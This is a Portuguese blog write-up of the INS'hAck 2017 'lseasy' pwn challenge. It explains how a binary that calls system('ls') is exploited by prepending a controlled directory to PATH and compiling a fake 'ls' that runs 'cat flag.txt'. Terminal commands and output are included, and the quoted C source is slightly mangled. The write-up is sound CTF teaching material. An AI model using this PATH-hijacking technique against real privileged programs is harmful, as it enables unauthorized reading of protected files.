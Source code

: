 ```yaml
---
layout: default
title: PWN1 - Explorando system() call [INS'hAck 2017] Write-up
date: 2017-04-18 19:47
author: obrerodrigues
comments: true
categories: [CTFs]
---
```

O <a href="https://ctftime.org/event/444">Ins'hAck</a> foi um ctf online que ocorreu do dia 6 de abril ao dia 9. Teve uns desafios bem interessantes e foi bem organizado pelo time <a href="https://ctftime.org/team/11869">InSecurity</a>.

Este write-up é referente ao primeiro nível de pwn e foi simples caso você já soubesse o caminho. Mas, sendo o noob que sou, demorei um pouco para sacar onde estava a falha e quando resolvi o chall fiquei feliz em ter aprendido algo novo.

A descrição era a seguinte:

<blockquote>My shower won't give me warm water :/ maybe it's an hacker? :o Could you help me? ssh you_ssh_user@pwn1.ctf.insecurity-insa.fr

Note: Please see your profile to know you SSH creds.</blockquote>

Que em português seria:

<blockquote>Meu chuveiro não quer me dar água quente :/ talvez seja um hacker? :0 Você pode ajudar?</blockquote>

E logo abaixo as instruções para conectar ao ssh do ctf que ficou offline desde o fim da competição.

Mas não se desespere. Ainda é possível tentar resolver pegando <a href="https://github.com/HugoDelval/inshack-2017/raw/master/challenges/pwn/lseasy-75/public-files/lseasy.zip">neste link</a> uma cópia do desafio.

Dentro do arquivo zipado há um elf executável chamado <strong><em>lseasy</em></strong> acompanhado do seu código fonte <em><strong>vuln.c</strong></em>. Estes dois arquivos podiam ser encontrados dentro do servidor junto com o arquivo flag.txt. Obviamente este arquivo não tinha permissões de leitura para meu usuário atual, mas podia ser lido pelo usuário que <strong><em>lseasy</em></strong> rodava. É o tipo de coisa padrão nesses desafios xpl/pwn. O objetivo é explorar o desafio e seus privilégios para, de alguma forma, ler o arquivo da flag.

Ao se executar o binário pela primeira vez, se percebe que ele apenas lista os arquivos do diretório atual. Uma olhada no código fonte<strong><em> </em></strong>confirma que essa é sua única função:

<script src="https://gist.github.com/anonymous/537b9729bb928e98d5af400aae650168.js"></script>

Não há muito o que explicar. Perdi tempo tentando variadas maneiras ler a flag. Logo estava lendo a <a href="http://man7.org/linux/man-pages/man3/system.3.html">manpage da função system</a>. Parecia ser a única coisa restante a ser explorada. Na seção de notas encontrei um aviso que dizia para não usa-la em programas SUID porque valores das variáveis de ambiente podiam ser usados para subverter o sistema. Ok, é exatamente o objetivo. Mas a nota não dizia como fazer isso.

Pesquisei por "exploit system call" no google e encontrei um<a href="https://www.go4expert.com/articles/exploit-c-t24920/"> tutorial mastigado</a> de como explorar um programa de exemplo exatamente igual ao do chall.

O segredo é que system vai procurar pelo binário nos caminhos contidos na <a href="https://www.vivaolinux.com.br/artigo/O-que-e-PATH-como-funciona-e-como-trabalhar-com-ele">variável de sistema <strong>PATH</strong></a>. E, como nada impede a alteração desta variável, é possível adicionar um caminho arbitrário.

```
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$ PATH=$HOME/Docs/ctf/inshack2017/pwn1:$PATH
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$ echo $PATH
/home/brenno/Docs/ctf/inshack2017/pwn1:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

O primeiro comando printa minha variável PATH atual, no segundo eu adiciono o caminho "$HOME/Docs/ctf/inshack2017/pwn1" no ínicio da varíavel de sistema e o terceiro printa o conteúdo alterado.

Agora, sempre que system for procurar o binário de ls, vai olhar primeiro dentro de "$HOME/Docs/ctf/inshack2017/pwn1". E é onde criei um ls mais coerente com meu objetivo.

```
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$ cat ls.c
#include stdio.h

int main() {
system(cat flag.txt);
return 0;
}
^C
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$ gcc ls.c -o ls
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$ ./lseasy
The content of the current folder is :
INSA{SySt3m_1s_3v1l_-}
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$
```

Na primeira parte criei um simples programa em C usando a mesma função system para executar o comando <strong>cat flag.txt</strong>. Então o compilei dando o nome de ls e, ao executar o binário lseasy pode-se ver que ao invés de imprimir o conteúdo da pasta, ele imprime o conteúdo de flag.txt.
